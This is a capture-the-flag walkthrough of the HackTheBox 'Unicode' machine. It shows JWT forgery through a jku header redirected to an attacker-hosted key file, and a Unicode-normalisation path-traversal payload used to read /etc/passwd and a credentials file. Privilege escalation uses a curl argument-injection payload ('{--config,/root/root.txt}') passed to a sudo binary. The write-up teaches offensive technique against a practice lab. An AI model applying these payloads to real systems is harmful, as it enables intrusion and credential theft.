Unicode is a medium box from hackthebox which starts with exploiting jwt in order to access admin panel and later exploiting a lfi vulnerability to get user credentials. The privesc is done by performing command execution with a binary which have sudo permissions.
| machine name | Machine Creator | Points | IP address | Hackthebox link |
|---|---|---|---|---|
| Unicode | wh0am1root | 30 | 10.10.11.126 | Unicode |
Nmap
I started with initial scan to find all the open ports.
1
2
3
4
5
6
7
8
9
# Nmap 7.92 scan initiated Sun Jan 9 21:32:47 2022 as: nmap -p- -T4 -oN ports.nmap 10.10.11.126
Nmap scan report for 10.10.11.126
Host is up (0.081s latency).
Not shown: 65533 closed tcp ports (reset)
PORT STATE SERVICE
22/tcp open ssh
80/tcp open http
# Nmap done at Sun Jan 9 21:33:16 2022 -- 1 IP address (1 host up) scanned in 28.83 seconds
Then performed detailed nmap scan on the open ports.
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
# Nmap 7.92 scan initiated Sun Jan 9 21:34:09 2022 as: nmap -p 22,80 -sCV -oN timing.nmap 10.10.11.126
Nmap scan report for 10.10.11.126
Host is up (0.080s latency).
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 3072 fd:a0:f7:93:9e:d3:cc:bd:c2:3c:7f:92:35:70:d7:77 (RSA)
| 256 8b:b6:98:2d:fa:00:e5:e2:9c:8f:af:0f:44:99:03:b1 (ECDSA)
|_ 256 c9:89:27:3e:91:cb:51:27:6f:39:89:36:10:41:df:7c (ED25519)
80/tcp open http nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-trane-info: Problem with XML parsing of /evox/about
|_http-title: 503
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Jan 9 21:34:20 2022 -- 1 IP address (1 host up) scanned in 10.75 seconds
According to the detailed nmap scan report the host has only 2 ports open which are 22 and 80. The box has ubuntu running in it. The port 80 has a webserver running which is nginx.
Website (Port 80)

The website has some interesting features which needs to examine closely. Website has login and register feature. Surprisingly they are not any php or html page, they are directories. Also the home page has a button to google about the company. Clicking on the button redirects to google.com.

This may be open redirect vulnerability but for now it is a dead end.
Directory bruteforce
When I tried to scan for directories using ffuf or gobuster I was being rate limited by some waf. So bruteforcing directories was not a option anymore.
Dashboard
After registreing with a user and loging in I saw the dashboard has feature to upload files. The upload functionality is not exploitable because the destination folder of uploaded files are unknown. Also there is a procong directory where purchasing can be donw but during checkout I saw none of the data being passed to the server

JWT

While looking at the requests in burp I noticed jwt is being used as cookie. For a website with barely any functionality presence of jwt as cookie is suspicious so I decoded the token in jwt.io

The jku header in the header section of jwt is called json web key (jwk) url where the jwks.json is stored. JSON Web Tokens (JWT) Demystified by @heytory is a wonderful article explaining all the things about jwk and jku. In a nutshell during verification of the jwt, a file called jwks.json is pulled which contains the necessary information which is hosted in website. The location of jwks.json is specified in the jku header. I retrieved the jwks.json and it looks like this.
1
2
3
4
5
6
7
8
9
10
11
12
{
"keys": [
{
"kty": "RSA",
"use": "sig",
"kid": "hackthebox",
"alg": "RS256",
"n": "AMVcGPF62MA_lnClN4Z6WNCXZHbPYr-dhkiuE2kBaEPYYclRFDa24a-AqVY5RR2NisEP25wdHqHmGhm3Tde2xFKFzizVTxxTOy0OtoH09SGuyl_uFZI0vQMLXJtHZuy_YRWhxTSzp3bTeFZBHC3bju-UxiJZNPQq3PMMC8oTKQs5o-bjnYGi3tmTgzJrTbFkQJKltWC8XIhc5MAWUGcoI4q9DUnPj_qzsDjMBGoW1N5QtnU91jurva9SJcN0jb7aYo2vlP1JTurNBtwBMBU99CyXZ5iRJLExxgUNsDBF_DswJoOxs7CAVC5FjIqhb1tRTy3afMWsmGqw8HiUA2WFYcs",
"e": "AQAB"
}
]
}
This article explains how this can be exploited to gain admin access. The key is getting supplied from a file which is hosted on the server so if anyone create a forged token with forged key and hosts the jwks.json in local machine that file will be called during verification. But the above process of exploit didn’t work so I looked of jwk generator online and found this site.

This site created a public-private key pair and corresponding n and e. So I replaced n and e in jwks.json an verified the jwt with new private and public key. Also changed the address of the jku header and pointed it to my ip address and started a python server to host the key.

But newly forged token wasn’t successful. Because the server maybe looks for hackmedia.htb at the starting of the address. TO bypass this I took advantage of the open redirect vulnerability which I discovered initially. I backtracked one directory to get into /redirect and redirect the request to my ip address where I hosted forged jwks.

This time the token worked and I got admin access.
Admin panel
The admin panel has a lfi vulnerability. The endpoint /display/?page=quarterly.pdf takes a argument for page parameter sends a get request. This lead to lfi.

But lfi was immediately not a success because there is a waf blocking the ../.
Unicode Normalization
As the name of the box suggests, the key to bypass the filter is unicode. During the researching I came across a term called unicode equivalence. When 2 or more differently looking or similar looking character essentially represents the same character. During this another term came up that is unicode normalization. Unicode normalization process helps to reduce this equivalence to one single character so it makes machines to easily understand. This article explains unicode normalization beautifully. As two different looking characters can represent same and they can be reduced to normal one after normalization process this, it can be useful to bypass any filter that blocks ../. This blog has some useful payloads to test this.

I replaced ../../../etc/passwd with ︰/︰/︰/etc/passwd and got 404 error. That was a good news because it wasn’t getting blocked anymore. So I kept increasing ︰/ and got result shortly.
1
2
3
4
5
6
7
8
9
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...[snap]...
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
mysql:x:113:117:MySQL Server,,,:/nonexistent:/bin/false
code:x:1000:1000:,,,:/home/code:/bin/bash
From passwd file the host has only one user named code.
User shell
Though I found access.log and error.log I failed to get any shell by log poisoning. So I looked for other important files of nginx and found the folder name where the source code of site is stored in /etc/nginx/sites-available/default.
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
limit_req_zone $binary_remote_addr zone=mylimit:10m rate=800r/s;
server{
#Change the Webroot from /home/code/app/ to /var/www/html/
#change the user password from db.yaml
listen 80;
error_page 503 /rate-limited/;
location / {
limit_req zone=mylimit;
proxy_pass http://localhost:8000;
include /etc/nginx/proxy_params;
proxy_redirect off;
}
location /static/{
alias /home/code/coder/static/styles/;
}
}
It says that the source code is stored in /home/code/coder. It is also possible that the folder contains any database config file. So I searched for db.php and didn’t find anything. So I searched popular configuration file extensions and tried appending them with db. After little exploring I found db.yaml in the source folder.
1
2
3
4
mysql_host: "localhost"
mysql_user: "code"
mysql_password: REDACTED
mysql_db: "user"
The yaml file has credentials for code. I tried to login with ssh and successfully logged in.
Privesc
First I tried sudo -l and it showed that user code can run /usr/bin/treport binary with root permissions.
1
2
3
4
5
6
code@code:~$ sudo -l
Matching Defaults entries for code on code:
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
User code may run the following commands on code:
(root) NOPASSWD: /usr/bin/treport
This has secure_path set so PATH variable manipulation is not possible. I executed the binary and it looked like a console where user can read and write threat reports. Also it has provisions to download reports from remote host. I started a python server in my machine to see how binary reacts when it is asked to connect to remote hosts.
1
2
3
4
5
6
7
8
9
10
11
code@code:~$ sudo /usr/bin/treport
1.Create Threat Report.
2.Read Threat Report.
3.Download A Threat Report.
4.Quit.
Enter your choice:3
Enter the IP/file_name:10.10.14.36/test
% Total % Received % Xferd Average Speed Time Time Time Current
Dload Upload Total Spent Left Speed
0 0 0 0 0 0 0 0 --:--:-- 0:00:01 --:--:-- 0
curl: (52) Empty reply from server
1
2
3
4
5
6
7
8
┌──(root💀kali)-[~/HTB/unicode]
└─# nc -lvnp 80
listening on [any] 80 ...
connect to [10.10.14.36] from (UNKNOWN) [10.10.11.126] 34860
GET /test HTTP/1.1
Host: 10.10.14.36
User-Agent: curl/7.68.0
Accept: */*
The user agent here is curl. It is clear that the machine performs a curl command to download reports. This can be useful to get command executions. So I tried with different command execution payloads but none of them worked. It looked like a script is filtering out any special characters that is present in user input.

But {} didn’t get blocked. So I created an array of arguments like {--config,/root/root.txt}. This payload will force curl to read config file which is root.txt in this payload and it will give output of root flag as stderr.

And there is root flag and his makes successful solve of unicode box.